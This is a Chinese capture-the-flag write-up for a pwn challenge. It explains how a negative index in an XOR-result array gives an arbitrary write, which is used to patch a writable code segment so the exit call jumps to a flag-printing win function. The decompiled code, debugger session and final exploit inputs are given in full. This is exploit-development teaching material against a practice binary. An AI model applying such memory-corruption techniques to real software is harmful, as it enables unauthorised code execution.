

ghidra看代码:
```c
void main(void)

{
  int iVar1;
  long in_FS_OFFSET;
  ulong local_28;
  ulong local_20;
  long local_18;
  undefined8 local_10;
  
  local_10 = *(undefined8 *)(in_FS_OFFSET + 0x28);
  puts("The Poopolator");
  setup();
  while( true ) {
    local_18 = 0;
    printf(&DAT_00100bbc);
    iVar1 = __isoc99_scanf("%ld %ld %ld",&local_28,&local_20,&local_18);
    if ((((local_28 == 0) || (local_20 == 0)) || (local_18 == 0)) ||
       ((9 < local_18 || (iVar1 != 3)))) break;
    *(ulong *)(result + local_18 * 8) = local_28 ^ local_20;         // A
    printf("Result: %ld\n",*(undefined8 *)(result + local_18 * 8));
  }
                    /* WARNING: Subroutine does not return */
  exit(1);                                                           // B
}

void win(void)

{
  system("cat flag");
  return;
}
```


初看代码，很明显的利用A行实现任意地址写

因为B行，先不往rop方向考虑


安全参数:
```shell
$ checksec --file challenge
[*] '/home/goevil/share/pwn/challenge_50/image/challenge/challenge'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

发现GOT保护已开启，也不能修改GOT表

查看内存映射



发现有可写的代码段，正好含括了main函数，于是想到修改B行为`win();`


计算偏移值，修改代码：

```shell
pwndbg> x/2i 0x0000555555400ac8
   0x555555400ac8 <main+148>:   call   0x555555400830 <exit@plt>
   0x555555400acd <main+153>:   mov    rax,QWORD PTR [rbp-0x10]
pwndbg> p win
$1 = {<text variable, no debug info>} 0x555555400a21 <win>
pwndbg> set *((int*)0x0000555555400ac8) = 0xffff54e8
pwndbg> x/2i 0x0000555555400ac8
   0x555555400ac8 <main+148>:   call   0x555555400a21 <win>
   0x555555400acd <main+153>:   mov    rax,QWORD PTR [rbp-0x10]
pwndbg> x/4w 0x0000555555400ac8
   0x555555400ac8 <main+148>:      0xffff54e8      0x458b48ff      0x4d8b48f0      0x558b48e0
```

至此，已经得到最终内存中需要的值


因为A行的操作数为ulong类型，长度为8字节，结合result的位置，易得三个输入数字为：

```
0x458b48ff00000000    0xffff54e8    -262887
```

即

```
5011179270433669120 4294923496 -262887
```
